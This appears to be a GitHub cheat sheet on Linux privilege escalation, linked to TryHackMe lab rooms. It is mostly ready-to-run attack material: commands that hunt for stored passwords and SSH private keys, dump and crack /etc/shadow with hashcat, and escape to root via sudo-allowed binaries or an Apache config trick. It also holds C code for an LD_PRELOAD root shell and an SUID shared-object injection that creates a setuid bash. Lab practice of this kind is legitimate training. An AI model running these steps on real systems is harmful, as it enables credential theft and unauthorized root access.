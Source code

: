 # Linux Privesc

- [1. Search Stored Passwords from Config Files](#1-search-stored-passwords-from-config-files)
- [2. Fetching Passwords from /etc/shadow](#2-fetching-passwords-from-etcshadow)
- [3. Escalate Privileges with SSH Key](#3-escalate-privileges-with-ssh-key)
- [4. Shell Escaping via Sudo](#4-shell-escaping-via-sudo)
- [5. Using LD PRELOAD](#5-Using-LD-PRELOAD)
- [6. Privilege Escalation via SUID](#6-Privilege-Escalation-via-SUID)

## 1. Search Stored Passwords from Config Files
### Commands to Find Passwords and SSH Keys
- Search for all config files:
  ```sh
  find / -type f -name "config" 2>/dev/null
  ```
- Search for files containing the word "password":
  ```sh
  find / -type f -exec grep -il "password" {} 2>/dev/null \;
  ```
- Search for config files containing the word "password":
  ```sh
  find / -type f -name "config" -exec grep -il "password" {} 2>/dev/null \;
  ```
- Search for SSH keys:
  ```sh
  find / -name id_rsa 2>/dev/null
  ```
- Search command history for "password":
  ```sh
  history | grep -i "password"
  ```

## 2. Fetching Passwords from /etc/shadow
### Steps to Extract and Crack Password Hashes
1. Extract the `/etc/passwd` file:
   ```sh
   cat /etc/passwd
   ```
   Save output to `passwd.txt`.
2. Extract the `/etc/shadow` file:
   ```sh
   cat /etc/shadow
   ```
   Save output to `shadow.txt`.
3. Combine `passwd.txt` and `shadow.txt` into an unshadowed file:
   ```sh
   unshadow passwd.txt shadow.txt > unshadow.txt
   ```
4. Crack the hashes using Hashcat with the `rockyou.txt` wordlist:
   ```sh
   hashcat -m 1800 unshadow.txt rockyou.txt -O
   ```

## 3. Escalate Privileges with SSH Key
### Steps to Gain Root Access Using SSH Keys
1. Locate `authorized_keys` or `id_rsa` files:
   ```sh
   find / -name authorized_keys 2>/dev/null
   ```
   or
   ```sh
   find / -name id_rsa 2>/dev/null
   ```
2. Save the `id_rsa` file to your machine.
3. Set appropriate permissions for the `id_rsa` file:
   ```sh
   chmod 400 id_rsa
   ```
4. Attempt to access the root shell on the target machine:
   ```sh
   ssh -i id_rsa root@<target-ip>
   ```

## 4. Shell Escaping via Sudo
### Steps to Escalate Privileges Using Sudo
1. Check for sudo permissions:
   ```sh
   sudo -l
   ```
   
![Screenshot From 2025-05-09 22-29-02](https://github.com/user-attachments/assets/0c5884f1-c62c-4203-a7b6-7e503ae49065)<br>

   Output will show commands that can be run as root without a password.
   
1. Exploit passwordless sudo access to gain a root shell using one of the following:

   ```sh
   sudo find /bin -name nano -exec /bin/sh \;
   sudo awk 'BEGIN {system("/bin/sh")}'
   echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
   sudo vim -c '!sh'
   ```
2. Abusing Intended Functionality

   ```sh
   sudo apache2 -f /etc/shadow
   ```
Here, we're telling Apache (with root privileges) to treat /etc/shadow as its configuration file — which is not a valid Apache config, so Apache will try to parse it and fail, which will throw an error message with the hash from /etc/shadow. Now, save the hash in a file hash.txt and we can crack this hash using hashcat or john.
<br>

![Screenshot From 2025-05-09 23-08-43](https://github.com/user-attachments/assets/39d9ca62-ee96-48a8-86cb-fcede471e40e)

## 5. Using LD PRELOAD

LD_PRELOAD is a function that allows any program to use shared libraries. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID. <br>
<br>
1. Check for LD_PRELOAD with the `env_keep` option using `sudo -l`
2. Type `nano x.c` and paste the code and save:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
2. Now type:
```sh
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
id
```
In this case we are using `apache2`. We can use other programs if possible.

## 6. Privilege Escalation via SUID

Make note of all the SUID binaries `suid-so`, `suid-env`, `suid-env2` .

```sh
find / -type f -perm -04000 -ls 2>/dev/null
```

![Screenshot From 2025-05-10 00-49-01](https://github.com/user-attachments/assets/4707d42c-8710-4a46-b854-f7630e3ffcaf)

**SUID Shared Object Injection**

1. Search if there any .so file is missing from a writable directory. `/home/user/.config/libcalc.so`

```sh
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

![Screenshot From 2025-05-10 00-45-04](https://github.com/user-attachments/assets/5741fd84-80c5-4bd3-9651-930316755759)

2. Now create a `libcalc.c` file under the `/home/user/.config/` directory and paste the code:
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
3. Compile and run the file:
```sh
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
/usr/local/bin/suid-so
id
```

**SUID Environment Variables**

1. Search if there is any env variables `suid-env`

```sh
strings /usr/local/bin/suid-env
```

---

# short

getcap -r / 2>/dev/null (capabilities)

cat /etc/crontab (cron)

cat /etc/exports (nfs root)

echo $PATH

https://tryhackme.com/room/linprivesc

https://tryhackme.com/room/linuxprivescarena
